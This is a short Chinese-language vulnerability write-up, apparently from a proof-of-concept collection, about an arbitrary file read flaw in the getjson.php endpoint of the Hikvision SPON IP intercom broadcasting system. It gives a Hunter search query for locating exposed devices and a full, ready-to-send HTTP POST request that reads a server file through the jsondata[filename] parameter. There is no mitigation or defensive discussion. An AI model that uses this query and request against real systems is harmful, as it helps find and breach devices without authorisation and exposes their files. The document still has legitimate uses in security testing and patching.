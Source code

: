 # 海康威视SPON IP网络对讲广播系统getjson存在任意文件读取漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.9);">Hikvision Intercom Broadcasting System是中国海康威视（Hikvision）公司的一个对讲广播系统。海康威视SPON IP网络对讲广播系统getjson存在任意文件读取漏洞。</font>

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ 海康威视SPON IP网络对讲广播系统

# 三、资产测绘
+ Hunter：`web.body="vendors/custom/html5.min.js"`
+ 特征

![1704857140903-8dadddb1-8d90-42a6-9179-3cd4dca00c8b.png](./img/0U2NLRBKAT56CH1C/1704857140903-8dadddb1-8d90-42a6-9179-3cd4dca00c8b-116718.png)

# 四、漏洞复现
```java
POST /php/getjson.php HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 44

jsondata[filename]=./ocx.json
```

![1704944421700-582b17ab-4acb-41dc-b15d-ecb1594c9772.png](./img/0U2NLRBKAT56CH1C/1704944421700-582b17ab-4acb-41dc-b15d-ecb1594c9772-780698.png)



> 更新: 2024-02-29 23:57:17  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/irhi1snf5yt1z0se>